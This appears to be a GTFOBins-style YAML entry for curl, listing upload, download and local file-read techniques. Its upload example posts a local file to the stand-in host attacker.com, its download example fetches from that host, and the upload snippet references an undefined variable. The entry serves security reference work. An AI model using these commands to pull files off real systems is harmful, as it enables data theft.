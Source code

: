 ```yaml
---
functions:
  upload:
    - description: Send local file with an HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        URL=http://attacker.com/
        LFILE=file_to_send
        curl -X POST -d @$file_to_send $URL
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        curl $URL -o $LFILE
  file-read:
    - description: The file path must be absolute.
      code: |
        LFILE=/tmp/file_to_read
        curl file://$LFILE
---
```

